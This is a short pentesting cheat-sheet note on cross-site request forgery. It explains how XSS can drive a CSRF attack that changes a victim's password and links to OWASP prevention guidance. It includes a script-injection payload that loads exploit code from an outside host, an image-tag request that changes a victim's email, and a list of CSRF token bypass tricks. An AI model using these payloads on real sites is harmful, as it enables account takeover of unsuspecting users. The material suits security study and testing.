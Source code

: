 `CSRF` attacks may utilize `XSS` vulnerabilities to perform certain queries, and `API` calls on a web application that the victim is currently authenticated to.

A common `CSRF` attack to gain higher privileged access to a web application is to craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the `JavaScript` `CSRF` payload), the `JavaScript` code would execute automatically. It would use the victim's logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.

```html
"><script src=//www.example.com/exploit.js></script>
```

##### Prevention
https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html

##### Deliver
GET:
`<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">`

POST: dedicated html page with form and js for auto submit

##### CSRF token bypass
* Can be omitted on GET requests
* Removing CSRF token skips validation
* CSRF token is not tied to the user session
* CSRF token is tied to a non-session cookie